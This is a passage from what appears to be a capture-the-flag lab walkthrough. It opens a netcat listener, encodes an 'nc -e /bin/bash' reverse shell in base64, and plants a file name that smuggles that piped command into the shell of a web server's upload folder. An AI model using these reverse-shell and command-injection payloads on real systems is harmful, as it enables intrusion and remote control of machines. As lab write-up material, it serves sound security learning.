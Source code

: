 On my listener, I see the connection, and then it immediately dies:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:57708.
root@kali#

```

So I tested some more shells as apache. This one worked well. I base64 encoded what I wanted to run:

```

root@kali# echo nc -e /bin/bash 10.10.14.7 443 | base64 -w0
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg==

```

Now from apache I can run:

```

bash-4.2$ echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh

```

And I get a stable callback:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:57710.
id
uid=48(apache) gid=48(apache) groups=48(apache)

```

### Get Shell

Putting that all together, I’ll touch a file that will get a shell:

```

bash-4.2$ touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b'
bash-4.2$ ls
10_10_14_5.php.png
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b
index.html

```

